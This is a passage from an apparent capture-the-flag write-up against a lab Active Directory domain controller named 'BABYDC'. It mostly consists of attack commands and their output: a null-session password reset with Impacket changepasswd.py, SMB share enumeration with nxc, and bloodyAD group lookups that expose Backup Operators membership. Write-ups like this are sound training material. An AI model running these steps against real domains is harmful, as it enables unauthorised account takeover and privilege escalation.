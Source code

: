 The `STATUS_PASSWORD_MUST_CHANGE` meant the password was correct but needed to change before authentication was allowed.

I ran `changepasswd.py` to reset the password.
```
❯ changepasswd.py -newpass Password1 -dc-ip 10.129.234.71 baby.vl/Caroline.Robinson:'BabyStart123!'@BABYDC
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Changing the password of baby.vl\Caroline.Robinson
[*] Connecting to DCE/RPC as baby.vl\Caroline.Robinson
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
```

Then I was able to authenticate.
```
❯ nxc smb 10.129.234.71 -u Caroline.Robinson -p 'Password1'
SMB         10.129.234.71   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.71   445    BABYDC           [+] baby.vl\Caroline.Robinson:Password1
```

I ran `nxc` again to enumerate the shares.
```
❯ nxc smb 10.129.234.71 -u Caroline.Robinson -p 'Password1' --shares
SMB         10.129.234.71   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.71   445    BABYDC           [+] baby.vl\Caroline.Robinson:Password1
SMB         10.129.234.71   445    BABYDC           [*] Enumerated shares
SMB         10.129.234.71   445    BABYDC           Share           Permissions     Remark
SMB         10.129.234.71   445    BABYDC           -----           -----------     ------
SMB         10.129.234.71   445    BABYDC           ADMIN$          READ            Remote Admin
SMB         10.129.234.71   445    BABYDC           C$              READ,WRITE      Default share
SMB         10.129.234.71   445    BABYDC           IPC$            READ            Remote IPC
SMB         10.129.234.71   445    BABYDC           NETLOGON        READ            Logon server share
SMB         10.129.234.71   445    BABYDC           SYSVOL          READ            Logon server share
```

The user had access to `ADMIN$` and `C$` shares, indicating unusual high privileges on the host. Instead of diving into the shares right away, I'd like to understand the privileges and group memberships associated with the user. I ran `bloodAD` to examine the group memberships.
```
❯ bloodyAD -u Caroline.Robinson -p 'Password1' --dc-ip 10.129.234.71 get membership Caroline.Robinson

distinguishedName: CN=Users,CN=Builtin,DC=baby,DC=vl
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Backup Operators,CN=Builtin,DC=baby,DC=vl
objectSid: S-1-5-32-551
sAMAccountName: Backup Operators  <---

distinguishedName: CN=Remote Management Users,CN=Builtin,DC=baby,DC=vl
objectSid: S-1-5-32-580
sAMAccountName: Remote Management Users  <---

distinguishedName: CN=Domain Users,CN=Users,DC=baby,DC=vl
objectSid: S-1-5-21-1407081343-4001094062-1444647654-513
sAMAccountName: Domain Users

distinguishedName: CN=it,CN=Users,DC=baby,DC=vl
objectSid: S-1-5-21-1407081343-4001094062-1444647654-1109
```